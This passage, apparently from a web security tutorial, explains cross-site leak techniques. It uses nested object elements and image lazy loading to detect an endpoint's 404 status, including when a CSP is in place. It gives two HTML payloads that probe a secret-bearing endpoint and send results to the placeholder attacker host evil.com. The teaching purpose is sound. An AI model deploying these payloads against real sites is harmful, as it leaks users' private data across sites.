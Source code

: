 <figure><img src="../.gitbook/assets/Screenshot 2023-07-31 at 11.12.37 PM.png" alt="" width="325"><figcaption><p>iframe of a 404 page</p></figcaption></figure>

What we ideally want to do is conditionally load a resource based on the leaky endpoint's status code. If we can do this, the conditionally-loaded resource can then serve as a callback, leaking the data _cross-site_. This brings us to nested `<object>`s!

## Nested Objects

In the following object, the nested callback object is only loaded as a fallback.

If the <mark style="color:yellow;">`/api/v1/leaky?secret=a`</mark> endpoint returns a 404 status code, then the inner `object` is loaded, giving a callback to <mark style="color:yellow;">`https://evil.com?callback=a`</mark> and letting us know that the search query `a` yielded no results.

```html
<object data="/api/v1/leaky?secret=a">
    <object data="https://evil.com?callback=a"></object>
</object>
```

## Lazy Loading

What if CSP blocks external objects? Let's try again with the following CSP:

<mark style="color:yellow;">`Content-Security-Policy: default-src 'self'; img-src *;`</mark>

Our callback `object` from above no longer works. In its place, we can use image [lazy loading](https://developer.mozilla.org/en-US/docs/Web/Performance/Lazy\_loading)! The following image will only load when it is visible and within a certain distance from the viewport.

```html
<object data="/api/v1/leaky?secret=a">
    <img src="https://evil.com?callback" loading="lazy">
</object>
```
